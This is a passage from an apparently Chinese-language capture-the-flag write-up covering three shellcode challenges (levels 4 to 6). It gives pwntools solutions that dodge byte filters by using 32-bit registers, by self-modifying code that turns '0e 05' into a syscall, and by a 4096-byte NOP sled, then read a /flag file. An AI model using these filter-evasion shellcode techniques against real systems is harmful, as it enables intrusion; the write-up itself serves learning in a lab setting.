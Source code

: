 ### 4

不能出现 `H` 字节，因此使用 32 位寄存器：

```python
# read(0, address of rip, 1000)
sc1 = """
xor eax, eax
xor edi, edi
lea esi, [rip]
mov edx, 1000  # <- rip
syscall        # sc2 comes after syscall
"""
# orw
sc2 = shellcraft.readfile("/flag", 1)

p.send(asm(sc1))
p.send(nop*16 + asm(sc2))
```

### 5

不能出现 syscall。syscall 是 `0f 05`，因此在最后加一句 `0e 05`，然后用 `inc BYTE PTR [rip]` 给最后一句加一变成 `syscall`。

```python
# read(0, address of rip, 1000)
sc1 = """
xor rax, rax
xor rdi, rdi
lea rsi, [rip]
mov rdx, 1000  # <- rip
inc BYTE PTR [rip] # rip on next line, which is 0e 05
"""
# orw
sc2 = shellcraft.readfile("/flag", 1)

p.send(asm(sc1)+b'\x0e\x05')
p.send(nop*16 + asm(sc2))
```

### 6

不能出现 syscall，而且禁止在 shellcode 前 4096 字节区域内的写操作。我直接跳了前 4096 字节然后用 5 的方法，暂时没有想到其他方法。

```python
# read(0, address of rip, 1000)
sc1 = """
.rept 4096
nop
.endr
xor rax, rax
xor rdi, rdi
lea rsi, [rip]
mov rdx, 1000  # <- rip
inc BYTE PTR [rip] # rip on next line, which is 0e 05
"""
# orw
sc2 = shellcraft.readfile("/flag", 1)

p.send(asm(sc1)+b'\x0e\x05')
p.send(nop*16 + asm(sc2))
```
